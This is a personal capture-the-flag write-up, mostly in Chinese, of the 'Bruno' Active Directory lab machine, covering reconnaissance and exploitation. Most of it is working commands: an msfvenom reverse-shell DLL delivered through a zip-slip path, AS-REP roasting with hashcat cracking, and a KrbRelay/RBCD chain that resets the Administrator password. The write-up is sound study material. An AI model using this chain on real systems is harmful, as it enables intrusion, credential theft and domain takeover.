


## Bruno
#### 哪种配置允许攻击者添加的机器被授权向主机请求其他帐户的服务票证？
#### Resource-Based Constrained Delegation
#### RBCD（资源基约束委派）做了什么：
#### 允许：某台机器（比如你加的恶意机器, 以任意用户身份访问目标服务
#### 本质就是：一台机器可以代表其他用户去请求服务票据（TGS）
#### MachineAccountQuota（默认 10）
#### 用 KrbRelay实战 RBCD 

<details>

<summary>总结</summary>

```
————————————————————————————————————————————————————
//.exe 或 .dll在windows不能单一运行，需要目录完整和二进制文件传输完整！！！

tp> binary
200 Type set to I.
ftp> !mkdir app
ftp> lcd app
Local directory now: /home/syareya55/app
ftp> cd app
250 CWD command successful.
ftp> mget *
mget changelog [anpqy?]? 
[★]$ tar -czvf app.tar.gz app
————————————————————————————————————————————————————
//安装了dotpeek终于打开了 SampleScanner.dll 文件
https://www.jetbrains.com/decompiler/
————————————————————————————————————————————————————
//使用工具“进程监视器Process Monitor”
https://learn.microsoft.com/en-us/sysinternals/downloads/procmon 
解压之后运行Procmon.exe：选择 ‘process Name' is 'SampleScanner.exe' then 'Include'

在Process Monitor找 Result:NAME NOT FOUND | Operation:CreateFile

//Windows x64 PC 无法运行 ARM64 程序，无法运行 .\SampleScanner.exe -> 会影响Process Monitor 无法搜索到Microsoft.DiaSymReader.Native.amd64.dll
在Stack里面，
Module			Lccation
KemelBase.dll	LoadLibraryExW + 0x162
//查找应用程序找不到的 DLL 文件。一个有价值的目标是应用程序根路径中搜索到的、并且已被应用程序加载的 DLL 文件（例如，通过 LoadLibraryExW 调用加载）
————————————————————————————————————————————————————
[★]$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.27 LPORT=443 -f dll -o hostfxr.dll
[★]$ python3 
Python 3.11.2 (main, Apr 28 2025, 14:11:48) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>>
>>> import zipfile
>>> with open('hostfxr.dll', 'rb') as f:
...     hostfxr = f.read()
... 
>>> with zipfile.ZipFile('slip-shell.zip','w') as zip:
...     zip.writestr('../app/hostfxr.dll',hostfxr)
... 
>>> exit()

[★]$ netexec smb brunodc.bruno.vl -u svc_scan -p Sunshine1 --shares
SMB         10.129.8.171    445    BRUNODC          queue           READ,WRITE  

[★]$ smbclient //brunodc.bruno.vl/queue -U 'svc_scan%Sunshine1'
smb: \> put  slip-shell.zip
————————————————————————————————————————————————————
[★]$ wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
[★]$ chmod +x kerbrute

[★]$ ./kerbrute userenum users.txt -d bruno.vl --dc brunodc.bruno.vl
2026/03/16 01:36:54 >  	brunodc.bruno.vl:88

[★]$ netexec ldap brunodc.bruno.vl -u svc_scan -p '' --asreproast svc_scan.asreproast 
LDAP        10.129.8.171    445    BRUNODC          
//svc_scan.asreproast为文件名，真正的攻击技术叫 AS-REP Roasting，把得到的 hash 保存到这个文件
[★]$ cp /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz . --> 得到Sunshine1
————————————————————————————————————————————————————
PS C:\Users> whoami /all

SeMachineAccountPrivilege     Add workstations to domain     Disabled
https://learn.microsoft.com/en-us/windows/win32/adschema/a-ms-ds-machineaccountquota
[★]$ netexec ldap brunodc.bruno.vl -u "svc_scan" -p "Sunshine1" -M maq
MAQ         10.129.8.171    389    BRUNODC          [*] Getting the MachineAccountQuota
MAQ         10.129.8.171    389    BRUNODC          MachineAccountQuota: 10 //普通域用户最多可以创建 10 台计算机账户
————————————————————————————————————————————————————
[★]$ git clone https://github.com/Kevin-Robertson/Sharpmad.git //Sharpmad.csproj
[★]$ git clone https://github.com/cube0x0/KrbRelay.git //CheckPort.exe  && KrbRelay.exe  这个需要在Pwnbox上的目标windows机器编译不了，需要在本机生成.exe再上传
[★]$ wget https://raw.githubusercontent.com/ohpe/juicy-potato/refs/heads/master/CLSID/GetCLSID.ps1

PS C:\programdata> Expand-Archive sharpmad.zip //解压
PS C:\programdata> ls C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe //生成.exe的默认路径
PS C:\programdata> .\MSBuild.exe sharpmad/sharpmad/Sharpmad.csproj
————————————————————————————————————————————————————
PS C:\programdata> ./Sharpmad.exe MAQ -Action new -MachineAccount roguecomputer -MachinePassword xiaohei
./Sharpmad.exe MAQ -Action new -MachineAccount roguecomputer -MachinePassword xiaohei
[+] Machine account roguecomputer added
————————————————————————————————————————————————————
PS C:\ProgramData> ./CheckPort.exe
./CheckPort.exe
[*] Looking for available ports..
[*] SYSTEM Is allowed through port 10246
————————————————————————————————————————————————————
PS C:\ProgramData> [System.Security.Principal.SecurityIdentifier]::new((([ADSI]"LDAP://CN=roguecomputer,CN=Computers,DC=bruno,DC=vl").objectSID).Value,0).Value

S-1-5-21-1536375944-4286418366-3447278137-5101
————————————————————————————————————————————————————
PS C:\ProgramData> ./GetCLSID.ps1
PS C:\ProgramData> ls Windows_Server_2022_Datacenter
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         3/17/2026   6:06 AM           3200 CLSID.list                                                           
-a----         3/17/2026   6:06 AM           7697 CLSIDs.csv

PS C:\ProgramData> cat Windows_server_2022_Datacenter\\CLSIDs.csv

PS C:\ProgramData> Import-Csv Windows_Server_2022_Datacenter\CLSIDs.csv | ForEach-Object { $entry = $_; try { $svc = Get-Service $entry.LocalService -ErrorAction Stop; if ($svc.Status -eq "Running") { try { [System.Activator]::CreateInstance([Type]::GetTypeFromCLSID($entry.CLSID.Trim("{}")))|Out-Null; "$($entry.LocalService) | $($entry.CLSID) | Activate OK" } catch { if ($_.Exception.Message -match "80070005") { $r = "Access Denied" } elseif ($_.Exception.Message -match "80040111") { $r = "Class Not Available" } elseif ($_.Exception.Message -match "80070422") { $r = "Service Disabled" } else { $r = "Failed" }; "$($entry.LocalService) | $($entry.CLSID) | $r" } } } catch {} }

CertSvc | {D99E6E73-FC88-11D0-B498-00A0C90312F3} | Activate OK
UsoSvc | {84C80796-F07C-4340-8897-DA954AADBF16} | Class Not Av
vds | {7D1933CB-86F6-4A98-8628-01BE94C9A575} | Access Denied
————————————————————————————————————————————————————
PS C:\ProgramData> ./KrbRelay.exe -spn ldap/brunodc.bruno.vl -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3 -rbcd S-1-5-21-1536375944-4286418366-3447278137-5101 -ssl -port 10246 -reset-password administrator Lacure77#
————————————————————————————————————————————————————
[★]$ evil-winrm -i brunodc.bruno.vl -u 'administrator' -p 'Lacure77#'
————————————————————————————————————————————————————
解析
一个典型的 AD 提权链（MAQ + COM → Kerberos Relay → RBCD → 接管 Administrator）

利用 MachineAccountQuota + DCOM + Kerberos Relay
给自己机器加 RBCD 权限
最后 重置 Administrator 密码登录域控

Step 1：创建机器账户（MAQ 利用）
./Sharpmad.exe MAQ -Action new -MachineAccount roguecomputer -MachinePassword xiaohei
Step 2：找可用端口（用于 COM Relay） //到一个端口（10246），该端口允许 SYSTEM → 你监听的服务通信
./CheckPort.exe
Step 3：获取你机器账户的 SID
[System.Security.Principal.SecurityIdentifier]::new((([ADSI]"LDAP://CN=roguecomputer,CN=Computers,DC=bruno,DC=vl").objectSID).Value,0).Value
Step 4：枚举可利用 CLSID（DCOM 攻击面）
./GetCLSID.ps1
Import-Csv Windows_Server_2022_Datacenter\CLSIDs.csv | ForEach-Object { $entry = $_; try { $svc = Get-Service $entry.LocalService -ErrorAction Stop; if ($svc.Status -eq "Running") { try { [System.Activator]::CreateInstance([Type]::GetTypeFromCLSID($entry.CLSID.Trim("{}")))|Out-Null; "$($entry.LocalService) | $($entry.CLSID) | Activate OK" } catch { if ($_.Exception.Message -match "80070005") { $r = "Access Denied" } elseif ($_.Exception.Message -match "80040111") { $r = "Class Not Available" } elseif ($_.Exception.Message -match "80070422") { $r = "Service Disabled" } else { $r = "Failed" }; "$($entry.LocalService) | $($entry.CLSID) | $r" } } } catch {} }
关键点：CertSvc -> Certificate Service（证书服务）->可以被 SYSTEM 调用,支持 DCOM 激活 -> 且：Activate OK
Step 5：核心攻击（KrbRelay）
./KrbRelay.exe \
-spn ldap/brunodc.bruno.vl \
-clsid d99e6e74-fc88-11d0-b498-00a0c90312f3 \
-rbcd S-1-5-21-...-5101 \
-ssl \
-port 10246 \
-reset-password administrator Lacure77#

[普通用户]
    ↓
(MAQ)
    ↓
创建机器账户 roguecomputer$
    ↓
(DCOM)
    ↓
诱导 SYSTEM 认证
    ↓
(Kerberos Relay)
    ↓
转发到 LDAP
    ↓
(RBCD)
    ↓
赋权 roguecomputer$
    ↓
接管 Administrator
    ↓
WinRM 登录
```

</details>

<details>
	
<summary>nmap</summary>
	
```
[★]$ ports=$(nmap -p- --min-rate=1000 -T4 10.129.6.204 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
[★]$ nmap -p$ports -sC -sV 10.129.6.204
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-03-13 03:07 CDT
Nmap scan report for brunodc.bruno.vl (10.129.6.204)
Host is up (0.30s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 06-29-22  04:55PM       <DIR>          app
| 06-29-22  04:33PM       <DIR>          benign
| 06-29-22  01:41PM       <DIR>          malicious
|_06-29-22  04:33PM       <DIR>          queue
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-13 08:07:29Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: bruno.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:brunodc.bruno.vl, DNS:bruno.vl, DNS:BRUNO
| Not valid before: 2025-10-09T09:54:08
|_Not valid after:  2105-10-09T09:54:08
|_ssl-date: 2026-03-13T08:09:02+00:00; 0s from scanner time.
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=bruno-BRUNODC-CA
| Not valid before: 2022-06-29T13:23:01
|_Not valid after:  2121-06-29T13:33:00
|_http-title: IIS Windows Server
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:brunodc.bruno.vl, DNS:bruno.vl, DNS:BRUNO
| Not valid before: 2025-10-09T09:54:08
|_Not valid after:  2105-10-09T09:54:08
|_ssl-date: 2026-03-13T08:09:02+00:00; +1s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: bruno.vl0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-13T08:09:02+00:00; 0s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:brunodc.bruno.vl, DNS:bruno.vl, DNS:BRUNO
| Not valid before: 2025-10-09T09:54:08
|_Not valid after:  2105-10-09T09:54:08
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: bruno.vl0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-13T08:09:02+00:00; +1s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:brunodc.bruno.vl, DNS:bruno.vl, DNS:BRUNO
| Not valid before: 2025-10-09T09:54:08
|_Not valid after:  2105-10-09T09:54:08
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BRUNO
|   NetBIOS_Domain_Name: BRUNO
|   NetBIOS_Computer_Name: BRUNODC
|   DNS_Domain_Name: bruno.vl
|   DNS_Computer_Name: brunodc.bruno.vl
|   DNS_Tree_Name: bruno.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-13T08:08:22+00:00
| ssl-cert: Subject: commonName=brunodc.bruno.vl
| Not valid before: 2026-03-12T07:54:56
|_Not valid after:  2026-09-11T07:54:56
|_ssl-date: 2026-03-13T08:09:02+00:00; +1s from scanner time.
49664/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
54566/tcp open  msrpc         Microsoft Windows RPC
54571/tcp open  msrpc         Microsoft Windows RPC
54707/tcp open  msrpc         Microsoft Windows RPC
57617/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
57618/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: BRUNODC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-03-13T08:08:26
|_  start_date: N/A
```

</details>

```
[★]$ echo '10.129.6.204 brunodc.bruno.vl bruno.vl' | sudo tee -a /etc/hosts
10.129.6.204 brunodc.bruno.vl bruno.vl
```

<details>
	
<summary>FTP </summary>
	
```
[★]$ ftp bruno.vl
Connected to brunodc.bruno.vl.
220 Microsoft FTP Service
Name (bruno.vl:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||55040|)
125 Data connection already open; Transfer starting.
06-29-22  04:55PM       <DIR>          app
06-29-22  04:33PM       <DIR>          benign
06-29-22  01:41PM       <DIR>          malicious
06-29-22  04:33PM       <DIR>          queue
226 Transfer complete.
ftp> cd app
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||55050|)
150 Opening ASCII mode data connection.
06-29-22  05:42PM                  165 changelog
06-28-22  07:15PM                  431 SampleScanner.deps.json
06-29-22  03:58PM                 7168 SampleScanner.dll
06-29-22  03:58PM               174592 SampleScanner.exe
06-28-22  07:15PM                  170 SampleScanner.runtimeconfig.dev.json
06-28-22  07:15PM                  154 SampleScanner.runtimeconfig.json
226 Transfer complete.

ftp> cd benign
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||55056|)
150 Opening ASCII mode data connection.
06-29-22  04:32PM                    4 test.exe
226 Transfer complete.

ftp> cd malicious
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||55101|)
125 Data connection already open; Transfer starting.
226 Transfer complete.

ftp> cd queue
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||55123|)
150 Opening ASCII mode data connection.
226 Transfer complete.
```

</details>

#### malicious恶意文件夹和queue队列似乎为空。良性文件夹中仅有一个名为 test.exe 的文件。之后
#### 下载下来后，我们可以看到它并非可执行文件，而是一个包含字符串“123\n”的 ASCII 文本文件。
```
[★]$ file test.exe
test.exe: ASCII text
[★]$ cat test.exe
123
```
#### 这让我们把目光转向“应用”文件夹，它也是包含文件最多的文件夹。
### 分析 SampleScanner .NET 应用程序
```
[★]$ file changelog
changelog: ASCII text
```

<details>
	
<summary>cat changelog</summary>

```
[★]$ cat changelog
Version 0.3
- integrated with dev site
- automation using svc_scan

Version 0.2
- additional functionality 

Version 0.1
- initial support for EICAR string
```

</details>

#### 它并未提供有关该应用程序的性质和功能的太多信息。然而，“使用 svc_scan 的自动化”这一条提示我们存在一个可能用于通过此应用程序进行自动化操作的账户。
#### 从 SampleScanner.deps.json 文件中，我们可以获取到该可执行文件所使用的 .NET 版本，即 3.1 。我们还能看到它加载了 SampleScanner.dll 组件。
```
[★]$ file SampleScanner.deps.json
SampleScanner.deps.json: JSON text data
```
<details>

<summary>cat SampleScanner.deps.json</summary>

```
[★]$ cat  SampleScanner.deps.json
{
  "runtimeTarget": {
    "name": ".NETCoreApp,Version=v3.1",
    "signature": ""
  },
  "compilationOptions": {},
  "targets": {
    ".NETCoreApp,Version=v3.1": {
      "SampleScanner/1.0.0": {
        "runtime": {
          "SampleScanner.dll": {}
        }
      }
    }
  },
  "libraries": {
    "SampleScanner/1.0.0": {
      "type": "project",
      "serviceable": false,
      "sha512": ""
    }
  }
}
```

</details>

#### 从 SampleScanner.runtimeconfig.dev.json 文件中，我们可以获取到一个用户名--xct 。
```
[★]$ file SampleScanner.runtimeconfig.dev.json
SampleScanner.runtimeconfig.dev.json: JSON text data
```
<details>

<summary>cat  SampleScanner.runtimeconfig.dev.json</summary>

```
[★]$ cat  SampleScanner.runtimeconfig.dev.json
{
  "runtimeOptions": {
    "additionalProbingPaths": [
      "C:\\Users\\xct\\.dotnet\\store\\|arch|\\|tfm|",
      "C:\\Users\\xct\\.nuget\\packages"
    ]
  }
}
```

</details>

#### 由于我们知道.NET 程序集会被编译成中间语言，所以我们将使用“文件”命令来确认我们获取的可执行文件和.dll 文件中哪些是.NET 程序集。
```
[★]$ file SampleScanner.dll
SampleScanner.dll: MS-DOS executable
[★]$ file SampleScanner.exe
SampleScanner.exe: MS-DOS executable
```
#### 该 dll 实际上是一个 .Net 程序集，因此我们可以使用像 dnspy 这样的工具来解编这个程序集并获取其库的源代码。而另一个可执行文件则是以原生 x64 机器代码编译的，这意味着我们不得不采用静态和动态分析的方式来理解其工作流程。不过，这种情况可能并非总是需要的——该可执行文件很可能只是 dll 的加载器，其中将包含工作流程的主要功能。
#### 可以通过https://file.io进行隔空传送
### [1]注：.exe 或 .dll在windows不能单一运行，需要目录完整和二进制文件传输完整！！！
```
tp> binary
200 Type set to I.
ftp> !mkdir app
ftp> lcd app
Local directory now: /home/syareya55/app
ftp> cd app
250 CWD command successful.
ftp> mget *
mget changelog [anpqy?]? 
```
```
[★]$ tar -czvf app.tar.gz app
```
#### 二进制文件被破坏传输是不能如期执行.\SampleScanner.exe’命令的
### [2]下载Microsoft.NETCore.App&framework_version=3.1.0之后，如果我们使用工具“进程监视器Process Monitor”，并仅筛选出显示与“进程名称为 SampleScanner.exe”相匹配的结果，例如这样：
https://learn.microsoft.com/en-us/sysinternals/downloads/procmon 
#### 解压之后运行Procmon.exe
#### 选择 ‘process Name' is 'SampleScanner.exe' then 'Include'
### [3]安装了dotpeek终于打开了 SampleScanner.dll 文件
https://www.jetbrains.com/decompiler/

<details>

<summary>SampleScanner.dll</summary>

```
// Decompiled with JetBrains decompiler
// Type: SampleScanner.Program
// Assembly: SampleScanner, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
// MVID: F802DA52-4179-4C52-B977-743340BF1853
// Assembly location: C:\samples\app\SampleScanner.dll

using System.Collections.Generic;
using System.IO;
using System.IO.Compression;
using System.Linq;
using System.Text;

#nullable disable
namespace SampleScanner;

internal class Program
{
  public static IEnumerable<int> PatternAt(byte[] source, byte[] pattern)
  {
    for (int i = 0; i < source.Length; ++i)
    {
      if (((IEnumerable<byte>) source).Skip<byte>(i).Take<byte>(pattern.Length).SequenceEqual<byte>((IEnumerable<byte>) pattern))
        yield return i;
    }
  }

  private static void Main(string[] args)
  {
    string str = "X5O!P%@AP[4\\PZX54(P^)7CC)7}$EYCAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*";
    str.Replace("EYCAR", "EICAR");
    byte[] bytes = Encoding.ASCII.GetBytes(str);
    foreach (string file in Directory.GetFiles("C:\\samples\\queue\\", "*", SearchOption.AllDirectories))
    {
      if (file.EndsWith(".zip"))
      {
        using (ZipArchive zipArchive = ZipFile.OpenRead(file))
        {
          foreach (ZipArchiveEntry entry in zipArchive.Entries)
          {
            string destinationFileName = Path.Combine("C:\\samples\\queue\\", entry.FullName);
            entry.ExtractToFile(destinationFileName);
          }
          File.Delete(file);
        }
      }
      else if (Program.PatternAt(File.ReadAllBytes(file), bytes).Any<int>())
      {
        File.Copy(file, file.Replace("queue", "malicious"), true);
        File.Delete(file);
      }
      else
      {
        File.Copy(file, file.Replace("queue", "benign"), true);
        File.Delete(file);
      }
    }
  }
}
```

</details>

### [4]运行Procmon64a.exe

<details>

<summary>Procmon64a.exe的运行不需要触发条件</summary>

```
PS C:\samples\app> ls


    目录: C:\samples\app


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         2026/3/15     16:33            165 changelog
-a----         2026/3/15     16:33            431 SampleScanner.deps.json
-a----         2026/3/15     16:33           7168 SampleScanner.dll
-a----         2026/3/15     16:33         174592 SampleScanner.exe
-a----         2026/3/15     16:33            170 SampleScanner.runtimeconfig.dev.json
-a----         2026/3/15     16:33            154 SampleScanner.runtimeconfig.json


PS C:\samples\app> .\SampleScanner.exe
You must install or update .NET to run this application.

App: C:\samples\app\SampleScanner.exe
Architecture: x64
Framework: 'Microsoft.NETCore.App', version '3.1.0' (x64)
.NET location: C:\Program Files\dotnet\x64\

The following frameworks were found:
  8.0.25 at [C:\Program Files\dotnet\x64\shared\Microsoft.NETCore.App]
  9.0.14 at [C:\Program Files\dotnet\x64\shared\Microsoft.NETCore.App]

Learn more:
https://aka.ms/dotnet/app-launch-failed

To install missing framework, download:
https://aka.ms/dotnet-core-applaunch?framework=Microsoft.NETCore.App&framework_version=3.1.0&arch=x64&rid=win-x64&os=win10
PS C:\samples\app> .\SampleScanner.dll
PS C:\samples\app>
```

</details>

### [5]在Process Monitor找 Result:NAME NOT FOUND | Operation:CreateFile
#### C:\samples\app\hostfxr.dll 里面运行着 KernelBase.dll

#### 利用 Path.Combine 的任意文件写入漏洞来劫持哪个 DLL 文件以实现代码执行？
#### Microsoft.DiaSymReader.Native.amd64.dll (由于win11环境是ARM64,所以没有找到这个程序
```
在Stack里面，
Module			Lccation
KemelBase.dll	LoadLibraryExW + 0x162
//查找应用程序找不到的 DLL 文件。一个有价值的目标是应用程序根路径中搜索到的、并且已被应用程序加载的 DLL 文件（例如，通过 LoadLibraryExW 调用加载）
```
#### C:\Progrm Files\dotnet\x64\coreclr.dll 里面运行着 hostfxr.dll

#### CreateFile这是用于获取新文件或现有文件的文件句柄的Windows API。如果参数指定只打开现有文件（不创建新文件），则如果文件不存在，ProcMon 将显示“NAME NOT FOUND”。这意味着如果我们能够创建该 DLL，它就能加载。第一个 DLL 看起来像是一个可写入的位置，所以我将目标设置为C:\samples\app\hostfxr.dll
### [6]创建payload:hostfxr.dll
```
[★]$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.27 LPORT=443 -f dll -o hostfxr.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: hostfxr.dll
```
#### 创建slip-shell.zip
```
[★]$ python3 
Python 3.11.2 (main, Apr 28 2025, 14:11:48) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>>
>>> import zipfile
>>> with open('hostfxr.dll', 'rb') as f:
...     hostfxr = f.read()
... 
>>> with zipfile.ZipFile('slip-shell.zip','w') as zip:
...     zip.writestr('../app/hostfxr.dll',hostfxr)
... 
>>> exit()
```
```
[★]$ wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
[★]$ mv kerbrute_linux_amd64 kerbrute
[★]$ chmod +x kerbrute
[★]$ cat users.txt
svc_scan
xct
[★]$ ./kerbrute userenum users.txt -d bruno.vl --dc brunodc.bruno.vl

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/16/26 - Ronnie Flathers @ropnop

2026/03/16 01:36:54 >  Using KDC(s):
2026/03/16 01:36:54 >  	brunodc.bruno.vl:88

2026/03/16 01:36:56 >  [+] VALID USERNAME:	 svc_scan@bruno.vl
2026/03/16 01:36:56 >  Done! Tested 2 usernames (1 valid) in 1.321 seconds

[★]$ netexec ldap brunodc.bruno.vl -u svc_scan -p '' --asreproast svc_scan.asreproast 
SMB         10.129.8.171    445    BRUNODC          [*] Windows Server 2022 Build 20348 x64 (name:BRUNODC) (domain:bruno.vl) (signing:True) (SMBv1:False)
LDAP        10.129.8.171    445    BRUNODC          $krb5asrep$23$svc_scan@BRUNO.VL:d17304f594900970216a5ad51b7ad21a$4abef23dcebc5091b0f0016823d672fba914d9ff22c8bc97232f5a883356877407fef44a18214c08857cecf1e117ce2f0306e4228543ae5bcfc0f94ed7e5f88dc6c69d25ca15dea89c721ee9609f692116585951cbe823a2fcddee95edb8767cd8913bd524eed295d5e01eda6b8f64ae4132eff35168a11d480efb8606cf2a06d5c9a7577ba5675d0ba52875fc299d94fc38afef0400d42f1eb28289c4020cad57d374797ff0ebc84202a0262545cb8ee7088cc401354538591a8846e292854ad434e385bfadb0d1845879c46faf5549164192935eeb07381c8ada513d9e45f9a21e7299
//svc_scan.asreproast为文件名，真正的攻击技术叫 AS-REP Roasting，把得到的 hash 保存到这个文件
//流程是：1.客户端请求 TGT  AS-REQ
//2.域控说：先证明你知道密码
//3.客户端用 密码加密时间戳 再发一次请求
//4.域控验证成功才返回：AS-REP ；所以攻击者 拿不到可破解的 hash

//因为关闭了 Kerberos 预认证，所以域控会直接返回 AS-REP
//Do not require Kerberos preauthentication ；不要求 Kerberos 预身份验证
//这就变成：离线破解密码
```
```
[★]$ ls /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz 
/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz
[★]$ cp /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz .
[★]$ gunzip rockyou.txt.tar.gz
[★]$ tar -xvf rockyou.txt.tar
[★]$ hashcat svc_scan.asreproast rockyou.txt

$krb5asrep$23$svc_scan@BRUNO.VL:d17304f594900970216a5ad51b7ad21a$4abef23dcebc5091b0f0016823d672fba914d9ff22c8bc97232f5a883356877407fef44a18214c08857cecf1e117ce2f0306e4228543ae5bcfc0f94ed7e5f88dc6c69d25ca15dea89c721ee9609f692116585951cbe823a2fcddee95edb8767cd8913bd524eed295d5e01eda6b8f64ae4132eff35168a11d480efb8606cf2a06d5c9a7577ba5675d0ba52875fc299d94fc38afef0400d42f1eb28289c4020cad57d374797ff0ebc84202a0262545cb8ee7088cc401354538591a8846e292854ad434e385bfadb0d1845879c46faf5549164192935eeb07381c8ada513d9e45f9a21e7299:Sunshine1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
</SNIP>
```
```
[★]$ netexec ldap brunodc.bruno.vl -u svc_scan -p Sunshine1
SMB         10.129.8.171    445    BRUNODC          [*] Windows Server 2022 Build 20348 x64 (name:BRUNODC) (domain:bruno.vl) (signing:True) (SMBv1:False)
LDAP        10.129.8.171    389    BRUNODC          [+] bruno.vl\svc_scan:Sunshine1
[★]$ netexec smb brunodc.bruno.vl -u svc_scan -p Sunshine1
SMB         10.129.8.171    445    BRUNODC          [*] Windows Server 2022 Build 20348 x64 (name:BRUNODC) (domain:bruno.vl) (signing:True) (SMBv1:False)
SMB         10.129.8.171    445    BRUNODC          [+] bruno.vl\svc_scan:Sunshine1
